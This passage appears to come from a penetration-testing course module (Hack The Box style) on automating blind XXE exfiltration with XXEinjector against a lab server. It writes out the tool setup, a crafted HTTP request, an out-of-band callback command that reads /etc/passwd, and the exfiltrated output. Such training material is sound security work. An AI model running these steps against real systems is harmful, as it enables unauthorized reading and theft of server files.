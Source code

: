 Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

To use this tool for automated OOB exfiltration, we can first clone the tool to our machine, as follows:

  Blind Data Exfiltration

```shell-session
ShibuShivansh@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

Code: http

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now, we can run the tool with the `--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read. We will also select the `--oob=http` and `--phpfilter` flags to repeat the OOB attack we did above, as follows:

  Blind Data Exfiltration

```shell-session
ShibuShivansh@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

We see that the tool did not directly print the data. This is because we are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there:

  Blind Data Exfiltration

```shell-session
ShibuShivansh@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```


	 